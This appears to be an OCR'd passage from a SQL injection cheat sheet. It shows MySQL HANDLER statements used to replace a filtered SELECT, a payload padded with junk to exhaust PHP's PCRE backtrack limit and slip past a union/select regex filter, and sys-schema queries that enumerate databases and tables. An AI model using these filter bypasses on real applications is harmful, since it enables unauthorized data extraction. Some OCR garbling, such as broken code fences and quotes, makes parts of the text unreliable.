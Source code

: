 ````sql
|CHARSET(str)|Returns the character set used by the string.|
|DECODE(crypt_str,pass_str)|Use `pass_str` as password to decrypt the encryption string `crypt_str`; Encryption function `ENCODE(str,pass_str)`.|

## SELECT Bypass
When the `select` keyword is filtered, the `handler` statement can be used instead of `select` for querying. This is because the `handler` statement can browse data in a table line by line. However, the `handler` statement does not have all the functions of the `select` statement. It is just a statement dedicated to `MySQL` and is not included in the `SQL` standard.

`handler` syntax structure:

````sql
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE
```

````sql
handler users open as h3rmesk1t; # Specify the data table to load and rename the return handle
handler h3rmesk1t read first; # Read the first row of data of the specified table/handle
handler h3rmesk1t read next; # Read the next row of data of the specified table/handle
handler h3rmesk1t read next; # Read the next row of data of the specified table/handle
...
handler h3rmesk1t close; # Close the handle
```

## PHP/union.+?select/ig Bypass
In some specific cases, `union` and `select` are prohibited from appearing at the same time, thereby introducing the regular statement `/union.+?select/ig` to determine the input data.

In order to prevent denial of service attacks (reDOS) of regular expressions, `pHP` has set a backtracking limit of `pHP`.backtrack_limit`. If the input data causes `pHP` to backtrack and this number exceeds the specified backtracking limit (default is `1 million," then the regular stops and returns unmatched data. Therefore, you can construct `Payload`: `union/a*100w (acts as garbage data)/select to bypass regular judgment. Reference: [PHP uses PCRE backtracking limits to bypass certain security restrictions] (https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html).

## SYS System Library
````sql
# Query all libraries.
SELECT table_schema FROM sys.schema_table_statistics GROUP BY table_schema;
SELECT table_schema FROM sys.x$schema_flattened_keys GROUP BY table_schema;

# Query the table of the specified library (if none, it means that this table has never been accessed).
SELECT table_name FROM sys.schema_table_statistics WHERE table_schema='mspwd' GROUP BY table_name;
SELECT table_name FROM sys.x$schema_flattened_keys WHERE table_schema='mspwd' GROUP BY table_name;

# Statistics the number of tables visited: library name, table name, number of visits.
select table_schema,table_name,sum(io_read_requests+io_write_requests) io from sys.schema_table_statistics group by table_schema,table_name order by io desc;

# View the details of all connected users: the connected user (connected username, connected ip), the current library, the user status (Sleep is idle), the SQL statement that is being executed, the last executed SQL statement, the time (seconds) of the connection that has been established.
````